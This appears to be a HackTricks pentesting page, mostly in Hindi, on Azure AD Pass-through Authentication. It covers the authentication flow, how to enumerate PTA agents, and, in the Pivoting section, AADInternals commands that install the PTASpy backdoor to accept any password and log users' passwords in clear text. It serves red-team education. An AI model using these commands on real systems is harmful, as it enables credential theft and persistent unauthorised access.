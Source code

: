 # Az - PTA - Pass-through Authentication

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra पास-थ्रू प्रमाणीकरण आपके उपयोगकर्ताओं को **एक ही पासवर्ड का उपयोग करके ऑन-प्रिमाइसेस और क्लाउड-आधारित अनुप्रयोगों में साइन इन करने** की अनुमति देता है। यह सुविधा आपके उपयोगकर्ताओं को एक बेहतर अनुभव प्रदान करती है - एक कम पासवर्ड याद रखने के लिए, और आईटी हेल्पडेस्क लागत को कम करती है क्योंकि आपके उपयोगकर्ता साइन इन करना भूलने की संभावना कम होती है। जब उपयोगकर्ता Microsoft Entra ID का उपयोग करके साइन इन करते हैं, तो यह सुविधा उपयोगकर्ताओं के पासवर्ड को सीधे आपके ऑन-प्रिमाइसेस Active Directory के खिलाफ मान्य करती है।

PTA में **पहचानें** **सिंक्रनाइज़** होती हैं लेकिन **पासवर्ड नहीं** होते जैसे कि PHS में।

प्रमाणीकरण ऑन-प्रिम AD में मान्य किया जाता है और क्लाउड के साथ संचार एक **प्रमाणीकरण एजेंट** द्वारा किया जाता है जो एक **ऑन-प्रिम सर्वर** पर चल रहा है (यह ऑन-प्रिम DC पर होना आवश्यक नहीं है)।

### Authentication flow

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. **लॉगिन** करने के लिए उपयोगकर्ता को **Azure AD** पर पुनर्निर्देशित किया जाता है, जहां वह **उपयोगकर्ता नाम** और **पासवर्ड** भेजता है।
2. **क्रेडेंशियल्स** **एन्क्रिप्ट** होते हैं और Azure AD में एक **क्यू** में सेट होते हैं।
3. **ऑन-प्रिम प्रमाणीकरण एजेंट** क्यू से **क्रेडेंशियल्स** इकट्ठा करता है और उन्हें **डिक्रिप्ट** करता है। इस एजेंट को **"पास-थ्रू प्रमाणीकरण एजेंट"** या **PTA एजेंट** कहा जाता है।
4. **एजेंट** क्रेड्स को **ऑन-प्रिम AD** के खिलाफ **मान्य** करता है और **प्रतिक्रिया** **वापस** Azure AD को भेजता है, जो यदि प्रतिक्रिया सकारात्मक है, तो उपयोगकर्ता का **लॉगिन पूरा** करता है।

> [!WARNING]
> यदि एक हमलावर **PTA** को **समझौता** करता है, तो वह क्यू से सभी **क्रेडेंशियल्स** ( **स्पष्ट-टेक्स्ट** में) **देख** सकता है।\
> वह AzureAD के लिए **किसी भी क्रेडेंशियल्स** को भी **मान्य** कर सकता है (Skeleton key के समान हमला)।

### Enumeration

From Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
ऑन-प्रेम सर्वर में एजेंट चल रहा है या नहीं, इसकी जांच करें:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

यदि आपके पास **Azure AD Connect सर्वर** पर **admin** पहुँच है जिसमें **PTA** **एजेंट** चल रहा है, तो आप **AADInternals** मॉड्यूल का उपयोग करके **एक बैकडोर** **डाल सकते हैं** जो **सभी पासवर्ड** को **मान्य** करेगा (तो सभी पासवर्ड प्रमाणीकरण के लिए मान्य होंगे):
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> यदि **स्थापना विफल** होती है, तो यह संभवतः [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe) की कमी के कारण है।

यह बैकडोर करेगा:

- एक छिपा हुआ फ़ोल्डर `C:\PTASpy` बनाएगा
- `C:\PTASpy` में `PTASpy.dll` की एक प्रति बनाएगा
- `PTASpy.dll` को `AzureADConnectAuthenticationAgentService` प्रक्रिया में इंजेक्ट करेगा

> [!NOTE]
> जब AzureADConnectAuthenticationAgent सेवा को पुनः प्रारंभ किया जाता है, तो PTASpy "अनलोड" हो जाता है और इसे फिर से स्थापित करना आवश्यक है।

> [!CAUTION]
> क्लाउड पर **GA विशेषाधिकार** प्राप्त करने के बाद, **एक नया PTA एजेंट पंजीकृत करना** संभव है और **किसी भी पासवर्ड का उपयोग करके प्रमाणित करने के लिए** **पिछले** चरणों को **दोहराना** संभव है और साथ ही, **स्पष्ट पाठ में पासवर्ड प्राप्त करना।**

### Seamless SSO

PTA के साथ Seamless SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जांचें:

{{#ref}}
seamless-sso.md
{{#endref}}

## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../../banners/hacktricks-training.md}}
